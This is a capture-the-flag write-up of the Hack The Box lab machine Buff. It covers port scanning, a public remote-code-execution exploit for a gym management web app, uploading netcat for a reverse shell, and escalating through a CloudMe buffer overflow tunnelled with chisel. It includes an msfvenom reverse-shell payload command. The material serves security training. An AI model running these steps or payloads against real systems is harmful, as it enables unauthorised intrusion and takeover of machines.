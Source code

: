 ```yaml
---
description: >-
  Dec1pher's writeup on the easy-difficulty Windows machine Buff from
  https://hackthebox.eu
---
```


# HTB-Buff

* OS: Windows
* IP: 10.10.10.198

![](../../.gitbook/assets/buff.PNG)

## Overview

Buff is an easy windows machine that runs a gym management web interface tha't outdated and has a known exploit to get RCE on the box. From here we are using winPEAS to locate `CloudMe.exe` which is vulnerable to buffer overflow. Using some port forwarding and the found python exploit we get administration rights on the box.

## Useful Tools

1. chisel  [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

## Enumeration

### Nmap

As always the first thing is enumerating the box with nmap. The most efficient flags that I found that work relatively fast and at the same time don't skip important information are `-Pn` to skip the ping test, `-sS` for TCP SYN scan, `-sC` for testing default scripts, `-sV` for version enumeration of the host, `-T4` to be fast and `-p-` to do an all ports scan. Also to not waste time I like to use the `--max-retries 0` to stop nmap from testing the same port multiple times.

```bash
dec1pher@kali:~$ sudo nmap -Pn -sS -sC -sV -T4 -p- 10.10.10.198 --max-retries 0
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org/ ) at 2020-11-12 17:07 EET
Nmap scan report for 10.10.10.198
Host is up (0.12s latency).
Not shown: 999 filtered ports
PORT STATE SERVICE VERSION
8080/tcp open http Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6 Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 close
|_http-title: mrb3n's Bro Hut
Device type: general purpose Running (JUST GUESSING): Microsoft Windows XP 7 (87%)
OS CPE: cpe:/o:microsoft:windows xp :: sp3 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows XP SP3 (87%), Microsoft Windows XP SP2 (86%), Microsof 85%)
No exact OS matches for host (test conditions non-ideal).

OS and Service detection performed. Please report any incorrect results at https://nmap.org/sub
```

There is only one port open according to the initial scan and it's an Apache web server on port 8080. Nmap didn't gave us an OS version but it could detect that the host runs windows.

### Site discovery \(HTTP 8080\)

The website is a gym management app and going though the pages we can see in the `contact.php` page the version and the name of the software that's used.

![](../../.gitbook/assets/buff-site.png)

That version of the app has a know vulnerability that gives RCE to the attacker and we can find the exploit python script in ExploitDB [https://www.exploit-db.com/exploits/48506](https://www.exploit-db.com/exploits/48506).

### Exploiting Gym management

By running the exploit providing the box ip we get RCE on the box. The shell that the script opened is not responsive \(we can't change directories\) but we can run commands on the box. So we spin up a python server on our box and we upload `nc.exe` on the machine using `powershe Invoke-WebRequest` since we have access to powershell. Since `nc.exe` gets uploaded we can call it from the webshell we got from the python script and get a responsive reverse shell on the box \(since the nc.exe doesn't get deleted or blocked we can assume that the box doesn't have an antivirus or some kind of malware detection\).

 1. Uploading `nc.exe` 

![](../../.gitbook/assets/buff-nc.png)

2. Executing nc and getting a responsive reverse shell

![](../../.gitbook/assets/buff-rce.png)

=&gt; We can get user.txt under `C:\Users\Shaun\Desktop\user.txt`

## Privilege escalation

After some manual enumeration on the use we can see an app that stick out `CloudMe.exe`. After searching for that app we can find that the version of that app is vulnerable to buffer overflow and we can find a python script in exploitdb that exploits the vulnerability.

> buffer overflow script found here =&gt; [https://www.exploit-db.com/exploits/48389](https://www.exploit-db.com/exploits/48389)

### Creating the payload and setting up Chisel to use the script

Since python is not installed in the victim box we can use port forwarding to execute the script locally and send the payload to the victim using chisel. First we have to create a payload that opens a reverse TCP connection back to us. To do that we can use msfvenom and then use that created payload in the python script that we found.

=&gt; To create the payload `sudo msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.14.103 LPORT=1337 -f py -v payload`

Our next move is to upload `chisel.exe` on the victim using `powershell IWR` and run it in client mode , open chisel locally in server mode on the same ports to get a connection from our machine to the victim machine and finally forward the payload to the port that the app is running.

=&gt; Locally open chisel in server mode

![](../../.gitbook/assets/buff-client-chisel.png)

=&gt; Remotely execute chisel in client mode

![](../../.gitbook/assets/buff-serverchisel.png)

So we have created the tunnel to forward the payload to the app so now we can execute the python script that sends the payload open a netcat listener and get administration access on the box.

![](../../.gitbook/assets/buff-root.png)

At these point we have administration access on the box and we can get `root.txt` under `c:\Users\Administrator\Desktop\root.txt`

